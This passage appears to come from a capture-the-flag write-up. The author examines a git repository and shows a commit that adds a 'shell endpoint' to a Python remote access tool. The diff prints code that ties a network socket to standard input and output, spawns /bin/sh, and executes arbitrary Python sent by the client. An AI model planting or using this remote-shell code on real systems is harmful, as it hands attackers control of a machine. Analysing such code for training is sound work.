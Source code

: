 Essentially, what this is saying, is that we should continue to check the git files, so heading back to `/opt/dev/.git` we will run some git commands to identify more information about this RAT.

```
git log
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
```

Now we can check the changelog in the commit using the following:

```
git show 0a3c36d66369fd4b07ddca72e5379461a63470bf
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint

diff --git a/pyrat.py.old b/pyrat.py.old
new file mode 100644
index 0000000..ce425cf
--- /dev/null
+++ b/pyrat.py.old
@@ -0,0 +1,27 @@
+...............................................
+
+def switch_case(client_socket, data):
+    if data == 'some_endpoint':
+        get_this_enpoint(client_socket)
+    else:
+        # Check socket is admin and downgrade if is not aprooved
+        uid = os.getuid()
+        if (uid == 0):
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
+
+...............................................

```

